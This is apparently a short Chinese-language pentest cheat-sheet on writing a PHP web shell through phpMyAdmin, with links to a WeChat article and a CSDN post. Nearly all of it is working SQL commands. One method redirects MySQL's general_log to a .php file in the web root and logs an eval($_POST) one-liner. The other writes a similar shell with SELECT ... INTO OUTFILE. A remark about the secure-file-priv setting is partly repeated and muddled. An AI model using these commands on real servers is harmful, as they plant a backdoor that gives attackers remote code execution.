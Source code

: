 [phpmyadmin写shell](https://mp.weixin.qq.com/s?__biz=MzIwMDcyNzM0Mw==&mid=2247484470&idx=1&sn=b2f7b56028ddf701a903d981e58e324e) [2](https://blog.csdn.net/qq_40638006/article/details/122033546)

### phpMyadmin
方式1.登录到后台之后日志写shell
```shell
show global variables like "%genera%";    #查询general_log全局变量配置
set global general_log='on';             #开启生成日志
SET global general_log_file='C:/phpStudy/www/shell.php'; #设置日志存储路径
select "<?php eval($_POST['cmd']);?>";   #写入一句话
set global general_log='off';             #关闭general_log模式
```

方式2.

```shell
select "<?php @eval($_POST[yxcms]);?>" into outfile " C://phpstudy/www/info.php"
```
需要配置文件中 secure-file-priv 值为NULL, 且更改后需重启服务才生效且更改后需重启服务才生效
